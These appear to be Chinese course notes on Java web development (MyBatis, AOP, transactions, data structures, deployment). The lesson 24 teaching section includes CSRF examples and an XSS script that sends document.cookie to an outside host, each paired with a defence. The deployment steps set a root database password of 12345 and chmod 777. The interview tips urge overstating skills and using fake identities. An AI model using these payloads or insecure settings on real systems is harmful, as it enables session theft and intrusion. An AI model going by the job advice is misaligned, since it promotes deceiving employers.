  #### 日志2(报错日志)
  `2020-06-20 04:34:27.699 ERROR 70208 --- [  restartedMain] com.zaxxer.hikari.pool.HikariPool        : HikariPool-1 - Exception during pool initialization.
java.sql.SQLException: Access denied for user 'root'@'localhost' (using password: YES)
    at com.mysql.cj.jdbc.exceptions.SQLError.createSQLException(SQLError.java:129) ~[mysql-connector-java-8.0.17.jar:8.0.17]
    ...`

    1. 第一行 报错行 ERROR 代表这是一个报错 `HikariPool-1 - Exception during pool initialization.` 是报错的 log 信息, 一般是说报错的阶段或者报错的简单原因
    2. 第二行 报错直接原因 一至多行 可以copy到搜索引擎来debug
    3. 第三行及以后 报错的函数调用栈
      * at 开头 代表具体在哪个文件的哪个函数的哪一行出错 越下面的离出错的现场越远

  #### 日志3(报错日志的函数调用栈部分)
  `at com.mysql.cj.jdbc.exceptions.SQLError.createSQLException(SQLError.java:129) ~[mysql-connector-java-8.0.17.jar:8.0.17]`

    1. 报错发生在类 com.mysql.cj.jdbc.exceptions.SQLError 的  createSQLException 函数中
    2. com.mysql.cj.jdbc.exceptions.SQLError, 就是完整的类名, 包含了包的名字
    3. SQLError.java:129 代表在 SQLError.java 文件的129 行出错了
    4. 报错所处的库信息 mysql-connector-java-8.0.17.jar, 表示报错发生在第三方库 mysql-connector-java-8.0.17.jar 中, 8.0.17, 代表这个库的版本号
    5. 如果报错没有发生在第三方库中, 而是发生在 java 的标准库里面, 那么第三方库和版本号就是 [na:na] 形如`at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128) ~[na:na]`


# 其他
  * JDBC 规定java代码如何连接数据库及规定的具体实现
  * 留意MySQL是否启动
  * 从数据库返回的数据集ResultSet中遍历
  ```
  while (rs.next()) {
    ...
  }
  ```

-------------------------------------第19课笔记----------------------------------
# Mybatis
#### 比较
  * **原JDBC方式**
    1. 写 sql 语句, 拼参数
    2. 建立数据库连接
    3. 发送 sql 语句
    4. 拿到结果 ResultSet, 新建对应的 JavaModel
    5. ResultSet 中取数据, 放入 JavaModel 的对应字段
  * **Mybatis**
    1. 写 sql 语句
    2. 返回对应的 JavaModel

#### 配置
  * 在build.gradle中引入mybatis
  * Ssmapplication.java
    * `@SpringBootApplication(exclude = DataSourceAutoConfiguration.class)`修改为`SpringBootApplication` 实现从原先的Utility中配置数据库改为从application.properties中配置数据库

#### Mapper
  * **List<TodoModel> selectAllTodo();**
    1. 对应xml语句
    ```
    <select id="selectAllTodo" resultType="kybmig.ssm.model.TodoModel">
        SELECT * FROM ssm.todo
    </select>
    ```
    2. resultType: 表示数据库返回的数据类型
    3. 直接传入一个基本类型 int，这个 int 会被绑定到 ${id}
    4. 字符串拼接用$(不安全)
  * **void insertTodo(TodoModel todo);**
    1. 对应xml语句
    ```
    <insert id="insertTodo" useGeneratedKeys="true" keyProperty="id">
        INSERT INTO ssm.todo (content) VALUES (#{content})
    </insert>
    ```
    2. useGeneratedKeys和keyProperty: 表示Mybatis执行完插入语句后, 自动将自增长值赋值给xxx.id, 可通过xxx.getId()获取
    3. 传入一个对象, content 代表这个对象的 content 属性，注意这个对象要有 getter setter
    4. 预编译语句用#(更安全)
  * **动态代理** (只需编写TodoMapper接口, 由MyBatis结合映射文件自动实现)

    * **第一层 实例化TodoController类**[见TodoController.java]
      ```
      @Controller
      public class TodoController {
          private TodoService todoService;
          public TodoController(TodoService todoService) {
              this.todoService = todoService;
          }

          @PostMapping("/todo/add")
          public ModelAndView add(String content) {
              // 实例化之后就能调用todoService.add(...)
              TodoModel todo = todoService.add(content);
              ModelAndView mv = new ModelAndView("redirect:/todo");
              return mv;
          }
      }
      ```
      1. Mybatis扫描TodoController类
      2. 找到之前扫过的TodoService类
      3. 实例化TodoService类[见第二层] 生成todoService
      4. 将todoService传入TodoController的构造器/构造函数

    * **第二层 实例化TodoService类**[见TodoService.java]
      ```
      @Service
      public class TodoService {
          private TodoMapper todoMapper;
          public TodoService(TodoMapper todoMapper) {
              this.todoMapper = todoMapper;
          }

          public TodoModel add(String content) {
              TodoModel model = new TodoModel();
              model.setContent(content);
              // 实现接口后就能调用todoMapper.insertTodo(...)
              this.todoMapper.insertTodo(model);
              return model;
          }
          ...
      }
      ```
      1. Mybatis扫描TodoService类
      2. 找到之前扫过的TodoMapper接口
      3. 实现TodoMapper接口的方法[见第三层] 生成todoMapper
      4. 将todoMapper传入TodoService的构造器/构造函数

    * **第三层 实现TodoMapper接口**
      * 接口的所有方法的实现类似JDBC方式

    * **DynamicProxyDemo.java**
      1. 编写**TodoMapper**接口, 有两个方法select(...)和query(...)
      2. 编写代理类**MapperProxy**, 实现InvocationHandler接口并覆写invoke(...) invoke方法体内包含select(...)和query(...)的具体实现
      3. 编写**main()**
        * 通过(TodoMapper)Proxy.newProxyInstance(...)生成TodoMapper的代理对象
        * newProxyInstance(...)需要传入的参数:
          1. TodoMapper.class.getClassLoader() 类加载器, 将生成的代理类载入JVM
          2. new Class[]{TodoMapper.class} 待实现的接口, 使代理类具备接口中的所有方法
          3. new MapperProxy() 调用处理器, 调用实现了InvocationHandler类的一个回调方法

#### Topic mybatis 版本
  * **流程**
    1. TopicModel 包含属性[id, content, title, userId]且都需实现getter和setter
    2. Topic 表
        1. workbench 建表
        2. 创表语句保存到schema.sql
    3. TopicMapper
    4. TopicMapper.xml
    5. TopicService
    6. TopicController
    7. 实现相关页面

#### 登录注册
  * **流程**
    1. UserModel和UserRole
    2. User 表
        1. workbench 建表
        2. 创表语句保存到schema.sql
    3. UserMapper
    4. UserMapper.xml
    5. UserService
    6. UserController
    7. 实现相关页面
  * **交互**
    * **访问"/"**
      1. 调用index(...)
      2. 调用userService.currentUser(...)
        1. 从request中获取session 从session中获取字段"user_id"的值id
        2. id为空 调用guest(...) 返回一个游客用户
        3. id不为空 调用userMapper.selectUser(...)根据id返回目标用户或游客用户
      3. 获取模板并做替换
    * **访问"/user/add"** [在register.ftl页面提交表单]
      1. 调用register(...)
      2. 调用userService.add(...)
        1. 新建用户model 传入账号、密码和用户身份
        2. 调用userMapper.insertUser(...)在数据库中增加该用户
      3. add(...)返回该model
    * **访问"/user/login"** [在login.ftl页面提交表单]
      1. 调用login(...)
      2. 用户验证
        1. 调用userService.validLogin(...)
        2. 调用userMapper.selectOneByUsername根据用户名从数据库中查找该用户
        3. 仅当该用户存在且密码正确时返回true
      3. 验证通过
        1. 调用userService.findByUsername根据用户名获取当前用户current
        2. 从request中获取session
        3. 给session新增字段"user_id" 值为current的id
        4. 重定向到"/"
      4. 验证不通过
        1. 重定向到"/login"

# 其他
  * idea安装MyBatisCodeHelperPro

-------------------------------------第20课笔记----------------------------------
# AOP (Aspect Oriented Programming) 面向切面编程
  * 在build.gradle引入aop库
  * AOP实现登录验证和topic的edit权限[main/java/kybmig.ssm/aspect/PermissionAspect.java]
  * 5种注解
    * **@Before**: 前置通知 在方法执行之前执行
    * **@After**: 后置通知 在方法执行之后执行
    * **@AfterRunning**: 返回通知 在方法返回结果之后执行
    * **@AfterThrowing**: 异常通知 在方法抛出异常之后
    * **@Around**: 环绕通知 围绕着方法执行

#### @Before示例
```
@Before("execution(* kybmig.ssm.controller.TodoController.*(..))")
public void matchSingle() {
    Utility.log("最简单的单方法匹配 %s", request.getRequestURI());
}
```
  * `* xxx.xxx.xxx.xxx.*(..)` 对返回值、函数名和参数无限制匹配 即匹配TodoController内的所有路由函数
  * 简写 `@Before("within(kybmig.ssm.controller.TodoController)")`

#### @Around示例
```
@Around("execution(* kybmig.ssm.controller.TodoController.edit(..))")
public ModelAndView matchSingle(ProceedingJoinPoint joint) throws Throwable {
    Utility.log("路由函数之前执行 %s", request.getRequestURI());

    // 执行路由函数
    ModelAndView result = (ModelAndView) joint.proceed();

    Utility.log("路由函数之后执行 %s", request.getRequestURI());
    return result;
}
```
  * 匹配TodoController的edit(..)
  * 返回值类型必须与匹配的路由函数的返回值类型一致 即ModelAndView

# FileUploadController
#### 上传图片
  * 访问"/upload/index"
  * 调用uploadView() 载入upload.ftl
  * 提交表单到"/upload"
  * 调用singleFileUpload  

#### 访问图片
  * 访问"/avatar/{imageName}"
  * 调用avator(..)

# 事务
```
start transaction
SELECT * FROM ssm.Topic

Insert into ssm.topic
(userId, title, content)
values(1, 'train1', 'content')

commit
```

#### 并发事务带来的问题
  * 原始数据为[t0 c0]
  1. **脏读**

  当一个事务正在访问数据并且对数据进行了修改，而这种修改还没有提交到数据库中，这时另外一个事务也访问了这个数据，然后使用了这个数据
    1. 用户1修改标题            [t1 c0]
    2. 用户2读新标题旧内容       [t1 c0]
    3. 用户1修改内容            [t1 c1]
  2. **丢失修改**(脏写)

  指在一个事务读取一个数据时，另外一个事务也访问了该数据，那么在第一个事务中修改了这个数据后，第二个事务也修改了这个数据。这样第一个事务内的修改结果就被丢失，因此称为丢失修改。
    1. 用户1修改标题 [t1 c0]
    2. 用户2修改标题 [t2 c0]
    3. 用户2修改内容 [t2 c2]
    4. 用户1修改内容 [t2 c1]
  3. **不可重复读**

  在一个事务内两次读到的数据是不一样的情况
    1. 用户2读数据   [t0 c0]
    2. 用户1改数据   [t1 c1]
    3. 用户2读数据   [t1 c1]
  4. **幻读**

  它发生在一个事务读取了几行数据，接着另一个并发事务插入或删除了一些数据, 在随后的查询中，第一个事务就会发现多了或少了一些数据。
    1. 用户1读数据   [1 t0 c0]
    2. 用户2插数据   [1 t0 c0] [2 t0 c0]
    3. 用户1读数据   [1 t0 c0] [2 t0 c0]
  * **不可重复读和幻读的区别**

   不可重复读重点在读数据时数据被修改 幻读重点在于读数据时数据被插入或删除

#### 事务隔离级别
  ![](assets/markdown-img-paste-20200824093256189.png)
   * **读取未提交**：最低的隔离级别, 允许读取尚未提交的数据变更, 可能会导致脏读、幻读或不可重复读.
   * **读取已提交**：允许读取并发事务已经提交的数据, 可以阻止脏读, 但是幻读或不可重复读仍有可能发生.
   * **可重复读**：对同一字段的多次读取结果都是一致的, 除非数据是被本身事务自己所修改, 可以阻止脏读和不可重复读, 但幻读仍有可能发生.
   * **可串行化**：最高的隔离级别, 完全服从ACID的隔离级别. 所有的事务依次逐个执行, 这样事务之间就完全不可能产生干扰, 也就是说, 该级别可以防止脏读、不可重复读以及幻读.
   * MySQL默认级别为可重复读, 通过加锁读达到可串行化.

# 联表查询
```
SELECT * FROM TopicComment
inner join Topic
on Topic.id = TopicComment.topicId
where Topic.id = 1
```
```
// 当on条件不满足时 仍旧取出左边表格的数据 数据不存在用NULL填充
SELECT * FROM Topic
left join TopicComment
on Topic.id = TopicComment.topicId
where Topic.id = 3
```

# 外键
![](assets/markdown-img-paste-20200824101413484.png)
  * 在workbench中 选中TopicComment表
  *  右键->Alter Table->Foreign Keys
  * 外键命名为TopicComment_fk_Topic_id Referenced Table选择Topic表
  * Column选择topicId, Referenced Column选择id(这里id注意必须是Topic表的主键)
  * On Update选择cascade(级联更新), On Delete选择cascade(级联删除)

# 其他
  * 链式调用
  * 事务参考链接 https://github.com/Snailclimb/JavaGuide/blob/master/docs/database/%E4%BA%8B%E5%8A%A1%E9%9A%94%E7%A6%BB%E7%BA%A7%E5%88%AB(%E5%9B%BE%E6%96%87%E8%AF%A6%E8%A7%A3).md

-------------------------------------第21课笔记----------------------------------
# 进程和线程的区别
#### 比喻
线程在进程下行进（单纯的车厢无法运行）
一个进程可以包含多个线程（一辆火车可以有多节车厢）
不同进程间数据很难共享（A火车换到B火车很不易，比如站点换乘）
同一进程下不同线程间数据很易共享（A车厢换到B车厢很容易）
进程要比线程消耗更多的计算机资源（一列火车比一节车厢更耗资源）
进程间不会相互影响，一个线程挂掉将导致整个进程挂掉（一列火车不影响另外一列火车，但一节车厢爆炸将影响所有车厢）
进程可以拓展到多机，线程最多适合多核（不同火车可以开在多个轨道上，同一火车的不同车厢不行）
线程所使用的资源来自其所属进程的资源(造火车时能设计火车空间 火车造好之后车厢所使用的空间受限于火车空间)
线程使用的内存地址可以上锁，即一个线程使用某些共享内存时，其他线程必须等它结束，才能使用这一块内存。（比如火车上的洗手间）－"互斥锁"
线程使用的内存地址可以限定使用量（比如火车上的餐厅，最多只允许多少人进入，如果满了需要在门口等，等有人出来了才能进去）－“信号量”

#### 书面
（1）进程
进程是程序的一次执行过程，是一个动态概念，是程序在执行过程中分配和管理资源的基本单位，每一个进程都有一个自己的地址空间，至少有 5 种基本状态，它们是：初始态，执行态，等待状态，就绪状态，终止状态。（2）线程
线程是CPU调度和分派的基本单位，它可与同属一个进程的其他的线程共享进程所拥有的全部资源。
（3）联系
线程是进程的一部分，一个线程只能属于一个进程，而一个进程可以有多个线程，但至少有一个线程。
（4）区别：
根本区别：进程是操作系统资源分配的基本单位，而线程是任务调度和执行的基本单位
开销方面：每个进程都有独立的代码和数据空间（程序上下文），程序之间的切换会有较大的开销；线程可以看做轻量级的进程，同一类线程共享代码和数据空间，每个线程都有自己独立的运行栈和程序计数器（PC），线程之间切换的开销小。
所处环境：在操作系统中能同时运行多个进程（程序）；而在同一个进程（程序）中有多个线程同时执行（通过CPU调度，在每个时间片中只有一个线程执行）
内存分配方面：系统在运行的时候会为每个进程分配不同的内存空间；而对线程而言，除了CPU外，系统不会为线程分配内存（线程所使用的资源来自其所属进程的资源），线程组之间只能共享资源。
包含关系：没有线程的进程可以看做是单线程的，如果一个进程内有多个线程，则执行过程不是一条线的，而是多条线（线程）共同完成的；线程是进程的一部分，所以线程也被称为轻权进程或者轻量级进程。

# 栈和堆
  1. 栈用来存放存活时间短的数据, 如局部变量、函数参数、返回数据、返回地址等.
编译器通过栈实现函数调用, 调用函数时, 栈增长, 函数返回时, 栈收缩.
  2. 堆用来存放存活时间长的数据, 存放的具体内容由程序员安排, 这些数据在函数调用结束后还会使用,
  3. 多个线程共享进程的堆和元空间资源，但是每个线程有自己的程序计数器、虚拟机栈和本地方法栈。

-------------------------------------第22课笔记----------------------------------
# 备忘录
(1) 写出简历(初版先上传到群文件) 2020.9.4前
(2) 完成22课个人论坛  结课前
(3) 复习作业(特别是简答)+面试大全基础部分即可开始面试 2020.9.4前
(4) 边面试 边完成《面试大全》其他部分
(5)《SQL必知必会》要看，特别是 join 和事务。
(6) 不懂就问

# 简历怎么写
#### 格式
    - 格式使用PDF 标题"职位-姓名-手机号" (发群里用"昵称_版本")
    - 姓名 手机(尽量微信沟通) 邮箱(outlook)
    - 不放照片

1. 教育经历
xx大学 软件工程系 本科
教育起止时间,工作起止时间和工作经验问老师怎么写
2. 个人项目(没有相关工作经验 所以个人项目放前面)
  - gua：删除所有 gua 相关部分。
  - readme：代码仓库要有 readme 说明项目功能。没人想看代码。
  - 动图：代码仓库 readme 要有动图，动图要有功能展示和log，具体看板书动图。没人想看代码。
  - 链接(可选)：部署链接和代码仓库链接，代码仓库 readme 要有部署链接。
  - 游客：简历、代码仓库 readme 和网站上要有测试账号。或者你做游客系统。
  - 皮肤：项目最好换一个好看的皮。第一印象很重要。https://www.rieruuuu.xyz/
  - 面试(可选)：面试的时候带笔记本现场展示。
3. 个人简介
不要说自学 可以说说大学做了什么事情(毕设)
4. 工作技能(堆砌关键词)
听过概念 掌握
听过概念而且会用 写熟练掌握
懂的多一点 写深入理解
回顾上课学到的知识点往上写
  1. Java
  2. Web后端和服务器开发  

# 简历怎么投 面试怎么面

# 工作后规划

# 其他
* 不要直接回答没有工作经历 而是回答我做过XXX项目 实现XXX功能 这些功能是工作中常见的需求 如果工作中有类似的需求 我立马可以上手去做
* 被问到不熟悉的关键词 只要听过就回答会 大不了学一下之后 下次面试这个词就会了 程序员的核心能力就是快速学习
* 对方问到xxx其实对方也大概率不是很懂xxx
* 工作后会发现大部分同事代码写的不如你 水平也不如你 只是一直在原地踏步而已 有可能同事做错事情还得给他擦屁股
* 大家其实都不懂 但如果他人敢吹自己不敢吹就会简历都过不了
* 自信 给对方可靠的感觉 有自信对方才会高看你 哪怕他觉得哪些知识点可能有不足 有自信对方才相信你可以做到这些事情
* 在找工作阶段做的准备越足 越容易找不好工作
* 找工作像写程序 先写一个最简单的demo再修修改改
* 先入行 入行之后一切好说 下一份工作也很容易加薪 建议呆满一年后跳槽
* 半个月到一个月找到工作 二个月都久了
* 面的越多 表现的越多 回顾总结的越多 面试水平才会提高
* 前5个面试是成长最快的 每次面试时用手机录音 回去后对着录音整理面经 然后按格式分享到面经版块 与老师沟通总结
* 每年用假名假手机号花一星期面试 看看自己在市场上什么价

-------------------------------------第23课笔记----------------------------------
* 时间复杂度
* 数组 链表 栈 队列 字典 树 图

4 3 1 7
1 3 4 7

时间复杂度
空间复杂度

对于耗费资源的计算

A 方案: 1s, 100 MB
B 方案: 2s, 10 MB

函数 A, 调用一次 10s, 调用 N, 10 * N
函数 B, 调用一次 1s, 调用 N 次耗时 1 * N * N

A 跑 10次, 100s
B 跑 100次, 10000s

1. 抛开平台和具体实现的影响
2. 要考虑到调用次数的增多, 对于总耗时的影响

看, 随着调用次数的增长, 算法总的操作数量的一个估算
叫 大 O 阶, 用个数学符号来代替, O(N)
N 代表输入的规模


public static void A(int n) {
    for (int i = 0; i < n; i++) {
        Utils.log("this is A"); // 单条语句耗费时间x
        Utils.log("this is A"); // 单条语句耗费时间x
        Utils.log("this is A"); // 单条语句耗费时间x
        Utils.log("this is A"); // 单条语句耗费时间x
    }
    // 耗费时间 4 * x * n
}



 public static void B(int n) {
    for (int i = 0; i < n; i++) {
        for (int j = 0; j < n; j++) {
            Utils.log("this is B"); // 单条语句耗费时间x
        }
    }
    Utils.log("this is B"); // 单条语句耗费时间x
    // 耗费时间 x * n * n + x
}

n < 2, 4x, x
n =  2, 8x, 4x
n = 3, 12x, 9x
n = 4, 16x, 16x
n = 5, 20x, 25x


O(N) = 4n, 记作 O(4n)
O(N)  = n ^ 2, 记做 O(n ^ 2)

400
10000


函数A总时间 = 4 * x * N
           = 4xN

O(4xN) -> O(N)

函数B总时间 = x * n * n + x
           = x * n ^ 2 + x

O(x * n ^ 2 + x) =  O(n ^ 2 + 1) =  O(n ^ 2)



算法的时间复杂度
--------------

- 大 O 记法，是描述算法复杂度的符号
- 时间复杂度说的是算法的运行时间随着数据规模的增长而增长的幅度
- 空间复杂度就是占用内存的多少
A方案: 1s, 100 MB 内存
B方案: 2s, 10 MB 内存

- O(1)
    - 常数复杂度，代表时间复杂度最低的算法。
    - 取数组前一万个元素的和
    - 字典和集合的存取都是 O(1)
    - 用下标进行数组的存取是 O(1)
        address + size(element) * 100
        - `a[1]` `a[2]`
- O(logN)  实际上是(log 2 N)
    - 对数复杂度
    - `[1, 2, 3, 4, 5, 6, 7, 8, 9, 10]`
      2 的 n 次方 >= 10
      n = 4;
      最慢的情况下就要查找 log10 次,  log10 * x
      如果数据规模是 n, 平均每次查找用 x, 总时间是 logN * x, 时间复杂度就是 logN
    - 假设有一个有序数组，以二分法查找
    - 1000 500 250 .... 0
    - 2^n = 1000 -> n = log1000 -> n = 10
- O(N)
    - 线性复杂度
    - `[3, 4, 7, 1, 2, 6, 5, 9, 10, 8]`
    - x * n -> O(x * n) -> O(n)
    - 取数组所有元素的和
    - 假设有一个无序数组，以遍历的方式在其中查找元素

- O(MlogN) O(NlogN)
    - 求两个数组交集，其中 A 为无序数组， B 为有序数组
    假设遍历每步用时 x, 比较每步用时是 y,
    A 里面有 M 个元素, B 里面有 N 个元素
    一个元素在 B 里面查找, 耗时是  logN * y
    A 里面所有元素在 B 里面都找一遍, M * logN * y * x
    MlogN * xy
    时间复杂度就是 M*logN

    - `[3, 4, 7, 1, 2, 6, 5, 9, 10]` `[1, 3, 11]`
    - A 有 M 个元素，B 有 N 个元素
    - A 数组每一个元素都要在 B 数组中进行查找操作
    - 每次查找如果使用二分法则复杂度是 O(logN)
    - 查找 M 次 即是 O(M)
    - 总的就是 O(M) * O(logN) = O(MlogN)
- O(N^2) O(M*N)
    - 平方复杂度
    - 求两个长度一样的无序数组的交集
    - 求长度为 M 和长度为 N 的两个无序数组的交集
    - `[3, 4, 7, 1, 2, 6, 5, 9, 10, 8]` `[3, 1, 13]`
    - M * N, N ^ 2




四大数据结构
------------

针对常用的操作，我们总结了一套常用的数据结构


1. 数组  array
    - 连续的一块存储空间
    - 读取元素时间是 O(1)
    - 插入末尾是 O(1)
    - 插入、删除是 O(n),
       因为数组要求是连续的空间, 不能有空格,
       所以插入和删除都要移动修改插入或者删除位置之后的元素
       123456789
       12345 789
       123457 89
       1234578 9
       12345789

       删除 k 位置的数据, 如果有 n 个元素
       移动 n - k 个数据
       移动一个元素, 耗费时间 y
       (n - k) * y -> n - k -> O(n)
    -
2. 链表 linked list
    - 手拉手的盒子，一个盒子只能访问左右手的盒子
    - 以下标方式读取元素的时间是 O(n)
    - 插入、删除是 O(1)
    - 栈和队列是链表的改良型

栈和队列
栈是先进后出, 相当于往水桶里面放东西, 先放进去的最后才能取出来
队列是先进先出, 相当于排队


3. 字典
m.put("age", 333)
m.pug("name", 4444)


    - 把字符串转为数字作为下标存储到数组中
    - 字符串转化为数字的算法是 O(1)
    - 所以字典的存取操作都是 O(1)
    - 除非对数据有顺序要求，否则字典永远是最佳选择
    - 字符串转化为数字的算法 hash 哈希
        1. 确定数据规模，这样可以确定容器数组的大小 size
        2. 把字符当作 10 进制数字得到结果
            - 'gua' 被视为 g * 1 + u * 10 + a * 100 得到结果 n
            - n % size 作为字符串在数组中的下标
            - 通常 size 会选一个 素数
            rehash
4. 二叉搜索树（我们只用，不写，甚至只是隐含在用，你并不知道你用的是树）
    - 搜索, 删除, 查找的复杂度, 都是 O(log(n)), n 是节点数量
    - AVL 树，名字三个作者的缩写
    - 红黑树，非常难，世界上没几个人会

二叉树: 子节点最多只有两个子树(节点)
二叉搜索树: 如果有左树, 那么左树上所有节点的值, 都小于根节点的值; 右树反之, 所有节点的值, 都大于根节点的值
搜索, 删除, 查找的复杂度, 都是 O(log(n)), n 是节点数

平衡: 左右树的高度, 相差不超过 1, 就是平衡的
平衡二叉搜索树, 插入和删除的时候, 都要保持树的平衡, 这个平衡的操作, 就是树的旋转
AVL 树
红黑树

5. 图
    - 额外的，图是一种有时候有用但你一辈子都可能写不到的数据结构
    - 只了解，不用学习如何实现
    - 图的应用举例
        - 地图导航
        - 全国几个大城市之间的出行方案(有价格/时间/路途等权重)

-------------------------------------第24课笔记----------------------------------
# CSRF/XSRF 跨站请求伪造 (cross-site request forgery)
#### 示例一
```
<img src="http://localhost:9000/topic/delete?id=14" hidden>
```

#### 示例二
```
<form id="form" method="POST" action="http://localhost:9000/topic/add">
    <input name='title' value="csrf" style="display: none" >
    <input name='content' value="csrfContent" style="display: none" >
    <input id="add" type="submit" value="点击领取金币" class="gua-button">
</form>
```

#### 解决方式 (token拆分/验证码)
  * 在自己网站的页面上放一串字符串, 这串字符串和用户的 cookie 加起来, 才能执行操作, 本质就是把 token 拆成两部分, 其中一部分只有访问我们的网站才能拿到

  ```
  @GetMapping("/topic")
    public ModelAndView index(HttpServletRequest request) {
        List<TopicModel> topics = topicService.all();
        String token = UUID.randomUUID().toString();
        UserModel user = userService.currentUser(request);
        tokenMap.put(user.getId().toString(), token);
        ModelAndView m = new ModelAndView("topic/index");
        m.addObject("topics", topics);
        m.addObject("token", token);
        return m;
    }
  ```
  * 访问"/topic" 调用index(..) 以用户ID为key 生成的token为value 存入tokenMap (每次访问都会更新token) 然后把token放入topic/index页面的`<a href="/topic/delete?id=${t.id}&token=${token}">删除</a>`处

  ```
  @GetMapping("/topic/delete")
    public ModelAndView delete(int id, String token, HttpServletRequest request) {
        Integer uid = (Integer) request.getSession().getAttribute("user_id");
        String userToken = tokenMap.get(uid.toString());

        if (userToken.equals(token)) {
            topicService.deleteById(id);
            return new ModelAndView("redirect:/topic");
        } else {
            return new ModelAndView("redirect:/login");
        }
    }
  ```
  * 在topic/index页面点击删除 访问"/topic/delete" 调用delete(..) 根据request的user_id从tokenMap中找到存储的token1 与传入的token2比对 一致则说明该请求来自于我们的网站 继而完成删帖操作



# XSS 跨站脚本攻击 (cross-site scripting)
#### 示例一
```
<script>alert("你被攻击了")</script>
```
  * 访问"/todo" 在"请输入todo"处 输入上述脚本
  * 此脚本将被当成一个todo的content加载到页面 此后每次访问"/todo"时此脚本都会被执行

#### 示例二
```
<script>
c = document.cookie;
alert(c);
document.body.insertAdjacentHTML("beforeEnd",` <img src='http://www.kuaibiancheng.com/uploads/avatar/default.gif?cookie=${c}'>`)
</script>
```
  * 该脚本从document获取cookie并弹到页面上显示 然后往页面内插入一个img标签 src为访问某网站并附带获取的cookie 让对方网站误以为是该用户在访问


#### 解决方式 (HTTPOnly/HTML转义)
  * HTTPOnly 设置cookie禁止被JS脚本获取
  * HTML转义 比如从页面输入的<script>将被转义成&ltscript&gt 避免被浏览器解析成HTML 模板引擎freemaker会提供类似功能
  ```
  @PostMapping("/todo/add")
    public ModelAndView add(String content) {
        content = content.replace(">", "&gt");
        content = content.replace("<", "&lt");
        TodoModel todo = todoService.add(content);
        ModelAndView mv = new ModelAndView("redirect:/todo");
        return mv;
    }
  ```

# resultMap结果映射
  * TopicModel
  ```
  //增加属性commentList 同时配置getter和setter
  private ArrayList<TopicCommentModel> commentList;
  ```
  * TopicController
  ```
  @GetMapping("/topic/detail/{id}")
    public ModelAndView detail(@PathVariable Integer id) {
        TopicModel topicModel = topicService.findByIdWithCommentsAndUser(id);
        ModelAndView mv = new ModelAndView("topic/detail");
        mv.addObject("topic", topicModel);
        return mv;
    }
  ```
  * TopicService
  ```
  public TopicModel findByIdWithCommentsAndUser(Integer id) {
      return this.topicMapper.selectOneWithCommentsAndUser(id);
  }
  ```
  * TopicMapper
  ```
  TopicModel selectOneWithCommentsAndUser(Integer id);
  ```
  * TopicMapper.xml
  ```
  <resultMap id="selectOneWithCommentsAndUserMap" type="kybmig.ssm.model.TopicModel">
      <id property="id" column="id"/>
      <result property="title" column="title" />
      <result property="content" column="content" />
      <collection property="commentList" ofType="kybmig.ssm.model.TopicCommentModel">
          <id property="id" column="c_id" />
          <result property="content"  column="c_content" />
          <association property="user" javaType="kybmig.ssm.model.UserModel">
              <result property="username" column="u_username" />
          </association>
      </collection>
  </resultMap>

  <select id="selectOneWithCommentsAndUser" resultMap="selectOneWithCommentsAndUserMap">

      SELECT
          Topic.id,
          Topic.title,
          Topic.content,
          TopicComment.id as c_id,
          TopicComment.content as c_content,
          User.username as u_username
      FROM
          ssm.Topic left join (TopicComment join User)
          on Topic.id = TopicComment.topicId and TopicComment.userId = User.id
      where Topic.id = #{id}
  </select>
  ```
* detail.ftl
```
<h1>${topic.title}</h1>
<p>${topic.content}</p>

<#list topic.commentList as c >
    ${c.id}: ${c.content} | ${c.user.username}
    <br>
</#list>
```

# 邮件功能
  * build.gradle注入相关依赖(spring-boot-starter-mail)
  * application.properties写入邮箱配置
  * 登录QQ邮箱 开启IMAP/SMTP服务
  * 实现MailController 包括同步和异步发送邮件
  * 开启异步
    1. SsmApplication中加入注解@EnableAsync
    2. MailController内的sendMailAsync加入注解@Async

# 其他
  * @RequestMapping("/mail") 提取路由公共前缀

-------------------------------------第25课笔记----------------------------------
# 流程
  * 浏览器发送请求->Tomcat->Servlet->Spring MVC
  * 升级版 浏览器发送请求 -> http 服务器(nginx, Apache) -> Tomcat -> Servlet -> Spring MVC

# Servlet
  * 实质就是一个接口 有5个方法
    1. init(..) 初始化
    2. service(..) 请求处理
    3. destroy() 销毁
    4. getServletConfig()
    5. getServletInfo()
  * 定义的是一套处理网络请求的规范 所有实现servlet的类，都需要实现这5个方法
  * 所有想要处理网络请求的类 都需要回答三个问题
    1. 你初始化时要做什么
    2. 你销毁时要做什么
    3. 你接受到请求时要做什么
  * 接口的实现由Spring MVC负责

# ServletDemo
  * build.gradle 修改配置使得可以build出war包而不是jar包
  ```
  plugins {
//    id 'java'
    id 'io.spring.dependency-management' version '1.0.7.RELEASE'
    id 'war'
    id 'idea'
}
  ```
  * build war包 存储在build/libs下
  * 配置tomcat: Edit Configuration->"+"->Tomcat Server->local
    1. Server->Configure->导入"apache-tomcat-9.0.37"文件夹
    2. Deployment->"+"->External Source->导入war包->Application context修改为/[目前只有一个war包 设置为根路径即可]
  * 修改tomcat权限 `chmod -R 777 apache-tomcat-9.0.37`

# war包结构
  * ssm-0.0.1-SNAPSHOT
    * META-INF
    * org [Spring框架对应的依赖]
    * WEB-INF
      * classes 代码
      * lib 代码中用到的库
      * lib-provided 代码中用到的库

# 服务器部署2.0
  1. `root@xx.xx.xxx.xx` root身份登录服务器
  2. `udo apt install nginx tomcat9 mysql-server openjdk-11-jdk`  安装相关软件
  3. `sudo rm -r /var/lib/tomcat9/webapps/ROOT` 删除Tomcat自带目录
  4. `sudo mysql_secure_installation` 配置数据库
      * 第一个选项选 n
      * 输入密码 12345
      * 确认密码
      * 剩下的所有选项都是选 y
  5. `mysql` 进入数据库
  6. 修改数据库密码为12345
  ```
  SELECT user,authentication_string,plugin,host FROM mysql.user;
  ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY '12345';
  FLUSH PRIVILEGES;
  ```
  7. `quit` 退出数据库
  8. Workbench 远程连接数据库
    * 打开Workbench 点击"+"
    * Connection Name: server_java
    * Connection Method: Standard TCP/IP over SSH
    * SSH Hostname: xx.xx.xxx.xx:22
    * SSH Username: root
    * SSH Key File: /xx/xx/.ssh/
    * 点击`Store in Keychain` 输入12345
    * 点击`Test Connection`
  9. 初始化数据库 复制 schema.sql 的内容到 Workbench
  10. 项目打包并上传到服务器运行
    * 在本地编译出 .war 包 选择 ssm[build] 并运行就会自动生成 .war 包
    * 生成的 .war 包路径为项目下的 build/libs/ssm-0.0.1-SNAPSHOT.war
    * 用 scp 或者 filezilla 把生成的 .war 包拷贝到服务器上去
